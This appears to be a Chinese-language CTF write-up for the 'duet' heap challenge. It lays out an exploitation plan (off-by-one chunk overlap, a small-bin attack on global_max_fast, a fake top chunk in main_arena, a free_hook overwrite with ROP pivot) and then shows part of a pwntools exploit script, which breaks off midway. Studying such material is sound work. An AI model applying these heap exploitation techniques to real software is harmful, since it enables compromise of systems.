```
.text:0000000000055E7F                 retn
```



## 利用思路
1. 通过一次off-by-one的机会改0x200大小的chunk的size为0x2f0，利用这个overlap进行堆风水。
1. small_bin attack向global_max_fast写一个main_arena范围的地址，这样一来使得所有size的bin都是fast_bin，main_arena里每个位置上存储的就是对应size的fast_bin链的起始地址。
1. 利用第一步overlap的chunk改写main_arena对应位置的内容，在main_arena里构造一个fake_chunk和假的fast_bin链起始地址，这样就可以calloc到main_arena上。
1. free_hook-0xb68附近有可以利用的0x100作为size，把main_arena对应位置的值改到这里；在这里写一个fake top chunk size，改main_arena+96处即top chunk的指针到fake top chunk处，这样就可以calloc到libc上。（注意在修改top chunk有一些检查，需要`*(main_arena+0x78) == main_arena+0x60`）。
1. 用fake top chunk进行几次calloc就可以覆盖到free_hook，布好rop利用rdi进行迁栈就可以了。


## EXP

完整的exp如下：

```
#!/usr/bin/python
#coding=utf-8
from pwn import *

context.terminal = ['tmux','splitw','-h']

qin = 0xb490e7
se = 0x9f91e7

if args.R:
    p = remote('pwnable.org',  12356)
else:
    p = process("./duet")

def Gong(ind, size, content = ''):
    # Add
    assert ind == 0 or ind == 1
    p.sendlineafter(": ", "1")
    if ind == 0:
        p.sendlineafter("Instrument: ", p32(0xb490e7))
    else:
        p.sendlineafter("Instrument: ", p32(0x9f91e7))
    assert 0x7f &lt; size &lt;= 0x400
    p.sendlineafter("Duration: ", str(size))
    p.sendafter("Score: ", content.ljust(size,'x00'))

def Shang(ind):
    # Free
    assert ind == 0 or ind == 1
    p.sendlineafter(": ", "2")
    if ind == 0:
        p.sendlineafter("Instrument: ", p32(0xb490e7))
    else:
        p.sendlineafter("Instrument: ", p32(0x9f91e7))

def Jue(ind):
    # Show (write)
    assert ind == 0 or ind == 1
    p.sendlineafter(": ", "3")
    if ind == 0:
        p.sendlineafter("Instrument: ", p32(0xb490e7))
    else:
```